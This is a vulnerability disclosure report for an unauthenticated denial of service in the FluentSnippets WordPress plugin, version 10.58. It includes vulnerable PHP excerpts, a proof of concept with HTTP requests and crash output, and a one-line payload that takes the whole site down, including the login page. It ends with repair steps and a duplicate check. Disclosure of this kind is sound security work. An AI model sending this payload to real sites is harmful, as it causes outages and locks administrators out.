



# WPManageNinja FluentSnippets (easy-code-manager) 10.58 /index.php?fluent_snippets=1&snippet_secret[]= Unauthenticated Denial of Service

## Author

- qwer1230011107

## Vendor and Software Links

- https://wordpress.org/plugins/easy-code-manager/
- https://github.com/WPManageNinja/easy-code-manager
- https://fluentsnippets.com/

## Overview

- FluentSnippets (WordPress.org slug `easy-code-manager`) by WPManageNinja, version 10.58 (current public release, 2026-11), is a file-based code-snippets manager with 20,000+ reported installations. On every request the plugin registers a `plugins_loaded` hook (`CodeHandler::register()`) whose first action is a Safe-Mode check `isDisabled()`. That check compares `$_REQUEST['snippet_secret']` against the on-disk secret with `hash_equals()` — without validating that the user input is a string. Sending `snippet_secret` as an array (`snippet_secret[]=x`) therefore throws an uncaught `TypeError` on every PHP 8.x installation, and because this runs at `plugins_loaded` — before WordPress renders anything — the entire site (front page, posts, `wp-login.php`, `wp-admin`, REST API) dies with HTTP 500 for the duration of the attack.

## Details

- Vulnerable file: `wp-content/plugins/easy-code-manager/app/Hooks/Handlers/CodeHandler.php`
- Affected version: 10.58 (current public release, 2026-11); plugin declares "Requires PHP: 7.3", but on PHP >= 8.0 `hash_equals()` is a strict `string`-typed internal function
- The plugin bootstraps on `plugins_loaded`, and the Safe-Mode gate runs unconditionally on every request, before any output:

```php
// easy-code-manager.php (bootstrap): plugins_loaded -> hooks.php
// hooks.php:7
(new CodeHandler())->register();

// CodeHandler.php:29-33
public function register()
{
    $this->storageDir = Helper::getStorageDir();

    if (!$this->isDisabled()) {
```

- `isDisabled()` reads two attacker-controlled superglobal keys and passes the second one straight into `hash_equals()` with no `is_string()` guard:

```php
// CodeHandler.php:300-302
if (isset($_REQUEST['fluent_snippets']) && isset($_REQUEST['snippet_secret'])) {
    $config = Helper::getIndexedConfig();
    if ($config && hash_equals($config['meta']['secret_key'], $_REQUEST['snippet_secret'])) {
```

- `hash_equals()` is declared `hash_equals(string $known_string, string $user_string)`. On PHP >= 8.0 supplying an array throws `TypeError: hash_equals(): Argument #2 ($user_string) must be of type string, array given`; it is uncaught, so PHP aborts the request with a fatal error (HTTP 500). On PHP 7.x the same input only raises a warning and returns `false`, which is why the plugin authors never saw it — but current WordPress-recommended hosting runs PHP 8.x.
- Precondition: the snippet-storage index (`wp-content/fluent-snippet-storage/index.php`) must exist, otherwise `Helper::getIndexedConfig()` returns falsy and the `&&` short-circuits. The plugin has no activation hook, but the index is built the first time an administrator opens the plugin's admin app (the Vue app calls the `sync-index` REST route on boot) and on every snippet/settings save — i.e. on virtually every active installation.

## Description

- An unauthenticated attacker appends `?fluent_snippets=1&snippet_secret[]=x` to any URL of a WordPress site running the plugin on PHP 8.x. The request is killed by an uncaught `TypeError` before WordPress can render any page: the front page, single posts, `wp-login.php`, `/wp-admin/*` and the REST API all return HTTP 500 simultaneously. The effect is not persistent — every normal request still succeeds — but each malicious request is a one-shot full-site outage and can be looped indefinitely from a single host, taking the site down for as long as the attacker keeps sending requests. Because `wp-login.php` and `/wp-admin/` die too, the administrator cannot even log in to disable the plugin while the flood lasts. No authentication, nonce, capability check or rate limiting is involved. The same crash is reachable via POST (`$_REQUEST` covers both). A separate, post-authentication instance of the same unsafe pattern exists at `app/Http/Controllers/SnippetsController.php:214` (`hash_equals($currentHash, strtolower($expectedHash))`), which is reachable only by logged-in users with authoring capabilities via REST and is therefore not independently exploitable.

## PoC

- Step 1 — anonymous request against the site front page (no cookies, no session):

```
GET /?fluent_snippets=1&snippet_secret[]=x HTTP/1.1
Host: 127.0.0.1:8152
```

- Response: `HTTP/1.1 500 Internal Server Error`

```
Fatal error : Uncaught TypeError: hash_equals(): Argument #2 ($user_string)
must be of type string, array given in
...\wp-content\plugins\easy-code-manager\app\Hooks\Handlers\CodeHandler.php:302
Stack trace:
  #0 CodeHandler.php(302): hash_equals(Object(SensitiveParameterValue), Object(SensitiveParameterValue))
  #1 CodeHandler.php(33): FluentSnippets\App\Hooks\Handlers\CodeHandler->isDisabled()
  #2 hooks.php(7): FluentSnippets\App\Hooks\Handlers\CodeHandler->register()
  #3 easy-code-manager.php(64): require_once(...)
  ...
  #12 {main} thrown in ...\CodeHandler.php on line 302

There has been a critical error on this website.
```

- Step 2 — the same payload on `wp-login.php` (administrator lockout):

```
GET /wp-login.php?fluent_snippets=1&snippet_secret[]=x HTTP/1.1
Host: 127.0.0.1:8152
```

- Response: `HTTP/1.1 500` with the identical `TypeError ... CodeHandler.php:302` fatal.

- Step 3 — control requests prove the crash is caused solely by the array type, not by the parameters being present: a wrong-but-string secret returns the site normally, and anonymous REST access is still correctly refused:

```
GET /?fluent_snippets=1&snippet_secret=0123456789abcdef0123456789abcdef  -> 200 (full front page)
GET /?rest_route=/fluent-snippets/snippets                              -> 401 {"code":"rest_forbidden",...}
GET /                                                                   -> 200 (full front page)
GET /?fluent_snippets=1&snippet_secret[]=x (repeated)                    -> 500 again, stable
```

- Step 4 — contrast showing the intended use of the endpoint: with the correct (string) secret the request is honored, `302 -> wp-admin/admin.php?page=fluent-snippets`, and `force_disabled` is set to `yes` in the storage index (restored to `no` after the test).

## Payload

```
?fluent_snippets=1&snippet_secret[]=x
```

(works identically as POST body `fluent_snippets=1&snippet_secret[]=x`; `$_REQUEST` merges GET/POST)

## Screenshots

Normal front page before the attack (HTTP 200):



The same URL with the array payload — uncaught `TypeError` at `CodeHandler.php:302`, full stack trace through `register() -> isDisabled()` (HTTP 500):



`wp-login.php` with the same payload — the login page itself is killed, locking the administrator out (HTTP 500):



Full evidence log: `poc/F1-unauth-dos-probes.txt`.

Note: the absolute server paths visible in the fatal messages come from the test machine's `display_errors=On` php.ini (a phpStudy artifact). On a production host the same crash yields HTTP 500 with WordPress's generic "There has been a critical error on this website." page — the outage itself is identical.

## Suggested repair

1. Coerce the user input to string before the comparison: `hash_equals((string) $config['meta']['secret_key'], (string) $_REQUEST['snippet_secret'])`, or reject non-string input outright (`if (!is_string($_REQUEST['snippet_secret'])) { return false; }`) — one line at `CodeHandler.php:302`.
2. Apply the same guard at the second occurrence, `app/Http/Controllers/SnippetsController.php:214`, where `strtolower($expectedHash)` must also be string-typed.
3. Wrap the Safe-Mode branch (or the whole `isDisabled()` call, which runs on every request before WordPress output) in a try/catch, so a malformed request can never abort the page load of the entire site.
4. Keep `display_errors` off in production (independent of this bug) so fatal messages do not disclose server paths; verify the fix against PHP 8.x specifically, since the code path is harmless on PHP 7.x and therefore escapes normal functional testing.

## Dedup note

- NVD: keyword searches for "easy-code-manager", "Fluent Snippets" and "FluentSnippets" (checked 2026-11-10) return exactly one CVE — CVE-2025-54010, Cross-Site Request Forgery in FluentSnippets <= 10.50 (disclosed 2025-07). Different vulnerability type (CSRF vs. unauthenticated DoS), different entry point — not a duplicate.
- VulDB: the search UI is gated by a Cloudflare Turnstile that cannot be automated, so the site was checked via search-engine indexes: `site:vuldb.com` for "fluent snippets" / "easy-code-manager" / "snippet_secret" / "CodeHandler" / "fluent-snippets" all return zero entries — VulDB has no record for this product at all.
- Patchstack (plugin vulnerability database, fetched 2026-11-10): exactly one entry, a patched CSRF <= 10.50; zero unpatched entries. Nothing covers `CodeHandler.php`, `snippet_secret`, TypeError or denial-of-service.
- Verdict: new vulnerability — same product, different type and parameter position. Released for reporting.
